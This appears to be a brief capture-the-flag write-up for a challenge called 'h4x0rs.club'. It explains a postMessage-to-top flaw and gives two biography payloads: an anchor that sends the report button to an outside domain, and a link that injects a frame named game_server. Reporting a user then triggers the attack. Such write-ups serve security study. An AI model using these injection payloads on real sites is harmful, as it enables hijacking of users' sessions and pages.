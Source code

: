 # h4x0rs.club
---
Upload [exploit.html](exploit.html) and [alert.js](alert.js) to `l4w.io` for example.
Create 2 users: `blah1` && `blah2`

Root cause:
Because on the backend side, they will send a message to `top` not `parent` . so we can inject our evil iframe in the middle.

### blah1
Set biography as the following:
```
<a href='//l4w.io' id=report-btn>
```

### blah2
Set biography as the following:
```
<a href='/game/?msg=<iframe name=game_server src=/game/user.php/blah1%23report><iframe>' id=report-btn></a>
```

Then report `blah2` user along with `#report`


